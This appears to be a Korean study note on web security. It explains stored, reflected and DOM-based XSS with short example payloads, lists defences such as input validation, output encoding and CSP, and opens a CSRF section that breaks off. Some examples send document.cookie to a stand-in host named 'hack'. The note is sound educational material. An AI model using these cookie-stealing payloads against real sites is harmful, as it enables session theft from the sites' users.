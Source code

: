 - 악성스크립트를 DB에 저장되도록 하여, 영구적으로 (지속적으로) 해당 스크립트가 열람 유저들에게 실행되어 데이터를 탈취 혹은 리디렉션 하게 되는 공격이다.

- `text-area` 뿐만아니라, 악성 스크립트가 저장되고 노출되기만 하면 동작되기 때문에 다양한 부분에서 공격이 일어날 수 있다.

**예시**

`<p>{users message}</p>` 형태의 데이터에 `<p><script src="hack.js"></script></p>` 의 형태로 스크립트를 심어 해당 HTML을 읽는 브라우저에서 해킹을 시도한다.

### Reflected XSS

- 서버로부터 반사되어 오는 값을 이용한 해킹시도 방법이다.

**예시**

- `https://someservice.com/lists?args=<script>location.href="https://hack/cookie={document.cookie}"</script>` 의 형태로 특정 요청을 해킹해서 사용자의 데이터를 탈취 할 수 있다.

### DOM Based XSS

- 브라우저가 HTML을 읽는 과정에서 해킹 코드를 실행해서 탈취해간다.
- 이는 서버에서 탐지가 안되기 때문에 프론트엔드 단에서 처리해주어야 한다.

**예시**

`<img src="never_exists_img" onerror="https://hack/cookie={document.cookie}"` 의 형태로 돔레벨에서 에러를 일으켜서 탈취할 수 있다.

### 보안 방법

- 사용자 입력이 들어가는 부분에 대해서 `validate`를 확실하게 하여 필터링 해낸다.
- `HTTP Response`에서 `encode`하여 `active content`가 되지 않도록 한다. 예시) `<` :: `&lt;`
- `Content-Type`, `X-Content-Type-Options` 등을 이용하여 브라우저가 의도한 대로 응답을 해석하도록 유도한다.

- `CSP`를 사용하는 웹에서는 `XSS`같은 동작이 포함되어 있으면 이를 방지할 수 있다.

### 의문점

1. `SQL injection`이랑 뭐가 다른지??
   - `SQL injection`은 DB가 타겟임. `XSS`는 사용자가 타겟임

### Reference

[What is cross-site scripting](https://portswigger.net/web-security/cross-site-scripting)

[동빈나 유튜브 - XSS 공격의 개요](https://www.youtube.com/watch?v=DoN7bkdQBXU)

## CSRF (Cross Site Request Forgery)

CSRF공격의 핵심

- 권한을 탈취하는 것은 불가능하다.
- 따라서 이미 신뢰를 받은 브라우저를 통해 특정 행위를 하도록 유도한다.

### 공격 방법

- 패킷정보를 탈취해서 특정 동작을 일으키는 요청에 대해서 해커가 알아낸다.
